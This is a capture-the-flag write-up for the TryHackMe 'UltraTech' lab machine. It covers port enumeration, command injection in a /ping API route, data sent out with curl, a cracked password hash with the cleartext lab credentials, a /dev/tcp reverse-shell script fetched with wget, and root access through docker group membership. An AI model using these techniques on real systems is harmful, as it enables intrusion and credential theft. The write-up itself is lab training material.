 # UltraTech Writeup (Tryhackme) by [yag1n3](https://github.com/yaguine)

### tags
* security
* pentest
* enumeration
* web

### set of questions 1
* which software is using the port 8081 ?
* which other non-standard port is used ?
* which software using this port ?
* which GNU/Linux distribution seems to be used ?
* the software using the port 8080 is a REST api, how many of its routes are used by the web application ?

### set of questions 2
* There is a database lying around, what is its filename? 
* What is the first user's password hash?
* What is the password associated with this hash?

### set of questions 3
* What are the first 9 characters of the root user's private SSH key? 

---

## set of questions 1

we ping the target and the ICMP TTL indicates us that it's a Linux Machine  
![](./contents/screenshots/screenshot1.png)  

with nmap we discover 4 open ports  
![](./contents/screenshots/screenshot2.png)  

this is enough to answer the first 4 questions :  
* *which software is using the port 8081 ?* 		**Node.js**
* *which other non-standard port is used ?* 		**31331**
* *which software using this port ?* 			**Apache**
* *which GNU/Linux distribution seems to be used ?*	**Ubuntu**

the last question is *the software using the port 8080 is a REST api, how many of its routes are used by the web application ?*  
i suppose they are talking about the 8081 port, not 8080  
now we use gobuster on the port 8081 to find the routes and we find 2, */auth* and */ping*

---

## set of questions 2

now we use gobuster on port 31331 and we discover the login page */partners.html*  
looking the code, we can see that it's using the API on port 8081  
every 10 seconds, it uses */ping?ip=<***IP***>* to confirm that the host is up  
when we try to log in, it uses */auth?login=<***username***>&password=<***password***>*  

i confirm that */ping* is using the command **ping**, so it might vulnerable to **command injection**  
after some tries, this is the injection that works for me  
![](./contents/screenshots/screenshot3.png)  

since i'm not able to make it display the output, i send the output of "ls -lha" to a file, and send it to my machine with curl  
![](./contents/screenshots/screenshot4.png)  
![](./contents/screenshots/screenshot5.png)  
![](./contents/screenshots/screenshot6.png)  

we see that the answer to the question *There is a database lying around, what is its filename?* is **utech.db.sqlite**  

we use the same technique to transfer de ddbb to our machine  
we see the user **r00t** with the hash **f357a0c52799563c7c7b76c1e7543a32**  
we search the hash on google, and we find [this page](https://md5.j4ck.com/14777) that includes that hash  
the unhashed password is **n100906**  

so we have answered the remaining questions, and we have the credentials **r00t:n100906** that work on */partners.html*  
Great !!!

NOTE : We also get another credentials **admin:mrsheafy**

---

## command injection script

im gonna be a little fancy here before continuing  
this is just for the sake of it, but i'm practicing bash scripting and i just learned how to color output  
lets make an script that applies the technique used on */ping* to achieve easy RCE and a reverse shell  

so this is the way it works : we start the script with params **remote ip** and **local ip**  
also, we need to start a listener on port 80 of our machine  
![](./contents/screenshots/screenshot7.png)  

now we enter a command and the output will be displayed on the listener  
![](./contents/screenshots/screenshot8.png)  

the script will end, and if we need to enter another command we have to execute the script and start the listener again  

### reverse shell

after trying different techniques, the one that worked for me was :  

create the following script **shell.sh** on my machine
```bash
#!/bin/bash

bash -i >& /dev/tcp/<LOCAL_IP>/<LOCAL_PORT> 0>&1
```

start an http server  

download it on the remote machine with **wget** 

give permissions to it with ```chmod +x shell.sh```

start a listener on the local port specified

execute it with ```./shell.sh```

we have a reverse shell on the remote machine !!!

---

## root flag

the last question is What are the first 9 characters of the root user's private SSH key?  
this is kind of asking for root.txt  
the last step was completely unnecesary since the credentials for "r00t" work on ssh  

being logged as "r00t" on the machine, we discover he is a member of the group "docker"  
we can create a docker container that includes the whole filesystem  
we will be root inside the docker, therefore we are root on the whole filesystem  

the command to achieve this is ```docker run -v /:/mnt -it <image>```, but we need an image  
we find the images on the system with ```docker images``` and we find one called "bash"  
we use the above command and now we have a shell in a docker with a folder called */mnt* that includes the whole filesystem  
and that ends the CTF !!!

aditionally, we could modify the passwd and shadow files to create a new super user  


